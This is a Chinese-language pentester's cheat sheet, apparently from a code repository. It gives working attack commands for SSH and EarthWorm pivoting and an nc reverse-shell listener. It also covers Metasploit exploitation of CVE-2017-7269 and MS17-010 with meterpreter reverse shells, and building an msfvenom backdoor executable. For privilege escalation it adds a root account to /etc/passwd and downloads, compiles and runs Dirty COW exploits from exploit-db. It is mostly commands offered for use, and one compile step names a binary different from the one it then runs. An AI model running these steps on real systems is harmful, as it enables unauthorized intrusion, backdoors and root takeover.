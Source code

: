 # 渗透师笔记

## 端口转发

### 端口转发1

目标主机A：192.168.1.100

目标主机B：10.16.10.1

`xx.xx.xx.xx:$ ssh 192.168.1.100 -rroot -D7070 -CNfg`

`192.168.1.100:$ export all_proxy=socks5://127.0.0.1:7070`

`192.168.1.100:$ curl http://10.16.10.1/key.txt`


### 端口转发2

webshell：192.168.1.100

目标主机A：10.16.10.1

`xx.xx.xx.xx:$ nc -lvvv 1234`

`192.168.1.100:$ python -c 'import pty; pty.spawn("/bin/bash")'`

`shell:$ ssh xxx@xx.xx.xx.xx -CNfg -R2222:10.16.10.1:22`

### 端口转发3

 在进行端口转发的虚拟机上执行：
 
 `ssh -N -f -L 0.0.0.0:9999:0.0.0.0:80 root@192.168.53.1`

解释：在进行端口转发的虚拟机上执行之后，会在本地开启9999端口，开启9999端口的跟转发192.168.53.1的80端口是一样的效果

### 端口转发4(EarthWorm 正向)

开启socks端口：`192.16.1.101:$ ew_linux_64 -s ssocksd -l 7788`

代理访问：`8.8.8.8:$ proxychains curl http://10.16.1.100`

[内网端口转发及穿透（合集）](https://xz.aliyun.com/t/142#toc-10)

## Metasploit

### CVE-2017-7269

> 漏洞介绍：Windows Server 2003R2版本IIS6.0的WebDAV服务中的ScStoragePathFromUrl函数存在缓存区溢出漏洞，远程攻击者通过以"If: <http://"开头的长header PROPFIND请求，执行任意代码。

使用模块：`https://github.com/zcgonvh/cve-2017-7269`

![](media/15466652365352.jpg)

设置反弹 shell 的 payload ：`set payload windows/meterpreter/reverse_tcp`

![](media/15466652703757.jpg)

查看配置参数：（被攻击和本机IP）

![](media/15466652925461.jpg)

开始攻击：（成功返回shell）

![](media/15466653018615.jpg)

### msfvenom 生成后门

端口尽量使用 `4444`，因为handler模块监听的所有payload【或者不夸张地说MSF中所有payload】监听&开放端口都为4444，这样可以省去之后很多端口设置

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.100 LPORT=4444 -f exe > ~/Desktop/shell.exe`

### MS17-010

```
$ msf > use exploit/windows/smb/ms17_010_eternalblue
$ msf exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
$ msf exploit(windows/smb/ms17_010_eternalblue) > set rhost 172.16.214.140
rhost => 172.16.214.140(攻击IP)
$ msf exploit(windows/smb/ms17_010_eternalblue) > set lhost 192.168.2.130
lhost => 192.168.2.130(反射IP)
$ msf exploit(windows/smb/ms17_010_eternalblue) > exploit
```


## 提权

利用find查找具有suid权限的文件：`find /usr/bin -perm -u=s`

* 利用vim进行提权，在/etc/passwd文件中添加一个账号

```
$ openssl passwd -1 -salt abc testpassword
$1$abc$QZHPQSR42L2Df4.wdBnlP0

$ echo 'test:$1$abc$QZHPQSR42L2Df4.wdBnlP0:0:0:aa:/:/bin/sh' >> /etc/passwd
```

* 利用计划任务CRON进行提权

```
$ echo '#!/bin/bash' > backup.sh
$ echo 'echo "test:\$1\$abc\$QZHPQSR42L2Df4.wdBnlP0:0:0:aa:/:/bin/sh" >> /etc/passwd' >> backup.sh
```

### 脏牛(dirty cow)

`$ (uname -s; uname -m; uname -r; uname -v) | curl -s https://api-ksplice.oracle.com/api/1/update-list/ -L -H "Accept: text/text" --data-binary @- | grep CVE | tr ' ' '\n' | grep -o -E 'CVE-[0-9]+-[0-9]+' | sort -r -n | uniq | grep CVE-2016-5195`

> 存在gcc


```bash
$ curl https://www.exploit-db.com/exploits/40839 > exp.c

$ gcc -pthread exp.c -o exp -lcrypt

$ ./exp 
...会提示输入 firefart 账号的密码

$ su firefart

$ mv /tmp/passwd.bak /etc/passwd
...恢复账号设置

```

> 存在g++


```bash
$ curl https://www.exploit-db.com/exploits/40847 > exp.cpp

$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o exp exp.cpp -lutil

$ ./dcow -s 

<还原账号文件>

$ echo 0 > /proc/sys/vm/dirty_writeback_centisecs

$ cp /tmp/.ssh_bak /etc/passwd

$ rm /tmp/.ssh_bak

```

